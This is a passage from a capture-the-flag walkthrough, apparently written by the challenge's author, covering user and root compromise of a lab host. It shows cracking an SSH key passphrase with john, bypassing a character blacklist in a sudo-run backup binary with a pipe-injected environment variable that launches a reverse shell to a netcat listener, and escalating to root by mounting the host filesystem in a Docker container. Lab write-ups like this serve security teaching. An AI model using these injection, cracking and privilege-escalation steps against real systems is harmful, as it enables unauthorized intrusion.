Furthermore, there appears to be a note, which describes the existence of another file **/keys/supersecretkeys.**

```
#[IMPORTANT!!!!] need to remember to remove my backup keys at /keys/supersecretkeys
```

Lets try leaking that, and see what we land:



Bitwarden credentials, lets try logging in:



Log-In was successful, and there appears to be an ssh_key, along with a username:



There is an ssh service on the host, so lets try logging in as **roberta**. However, before doing so, we must copy the key and apply the proper permissions:

```
echo "----BEGIN OPENSSH <SNIP>" > roberta_key
chmod 600 roberta_key
ssh roberta@drool.sigint -i roberta_key
```

If we do the above, we should get a prompt for the passphrase of the key, indicating how the key is encrypted.



To crack it we can use **john.** This is a two step process where we first use ssh2john to extract the hash, and then use john to crack it.

```
python3 /opt/john/ssh2john.py roberta_key > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

After a fairly brief wait (I hope) the passphrase should be recovered:



Now we can login with ssh and finally recover the user flag!



### Root Flag

Some initial enumeration as roberta results in the following finding:

```
sudo -l
```



While the first notable thing is the fact that we can run a program **/opt/backup/backup** as **roberta_dev**, we can also pass in the **BACKUP_FILE** environment variable.

The file in question appears to be an ELF binary:



We can copy it locally and open it up with ghidra, or any other disassembler/decompiler. Then we can assess what it does. Below is the main function of the program.



It seems to be using the getenv function to get the **BACKUP_FILE** environment variable. If set, it will then proceed to determine the presence of some characters inside the **BACKUP_FILE** variable. It uses the **strchr** function to do this. This function searches for the first occurrence of a specified character in a given string, and returns null if no occurence is found. If any of the checks does not return null (meaning that the respective character was identified in the string somewhere), then the program will not proceed to the zip command, and exit.

We can determine what the characters ascii representations look like through ghidras middle pane, or through a [converter tool.](https://www.rapidtables.com/convert/number/hex-to-ascii.html)

Ultimately, it appears that the the program is blacklisting the following characters:

```
; & [space] .
```

This appears to be some sort of defense against command injection, as the ultimate goal of the binary is to use a system command which executes a zip operation.

Therefore, the path to roberta_dev becomes fairly clear, we must conduct an OS injection, and bypass for a few blacklisted characters.

Lets first try out executing the binary under roberta_dev, while passing in our own environment variable:

```
sudo -u roberta_dev /opt/backup/backup

#if env variable is not set, we get an error

export BACKUP_FILE=lol
sudo -u roberta_dev /opt/backup/backup

#we still get an error here because "lol" is not a valid filepath
```



We can also observe the blacklist in full effect:



There is no right answer here, and multiple different ways can be employed to bypass the blacklist. Ultimately what worked for me was the following:

```
#First create a file /tmp/shell which contains a bash reverse shell
#Location must be readable by roberta_dev, hence /tmp
#Then change permissions to allow anyone to execute it

chmod 777 /tmp/shell

#use the "|" [pipe] character to break out of zip command and execute /tmp/shell

export BACKUP_FILE='|/tmp/shell'

#setup listener on attacking machine

nc -lvnp <PORT>

#trigger shell through sudo command as roberta_dev

sudo -u roberta_dev /opt/backup/backup
```



If the above is done correctly, a connection should be received on the netcat listener!



After [upgrading the shell,](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) we can continue our privesc attempts as the roberta_dev. Once again, it doesn’t take too long to find a valid privesc vector, as the **id** command tells us that they are a member of the **docker** group.



As such, we can simply mount the root directory to a docker container, enter the container and access the hosts filesystem under the directory which we mounted it to. Once this has been achieved, we effectively have the hosts filesystem at our mercy. We can change the root passwd, read the final flag and even add a suid bit to the bash binary.

First, we must enumerate the available images:

```
docker images
```



Then we can use one of the available images to start a new docker container, and mount the root share onto it:

```
docker run -tid -v /:/mnt/ --name rootpriv noteapp
```

Finally we can execute commands on it and also start an interactive session using bash:

```
docker exec -it rootpriv /bin/bash
```

Finally, if we navigate to the /mnt directory on the docker container, we shall see the targets filesystem, where we can read the final flag under **/mnt/root/root.txt.**



And this concludes full compromise of my FullPwn challenge. I hope you enjoyed this writeup and hopefully learned something along the way.
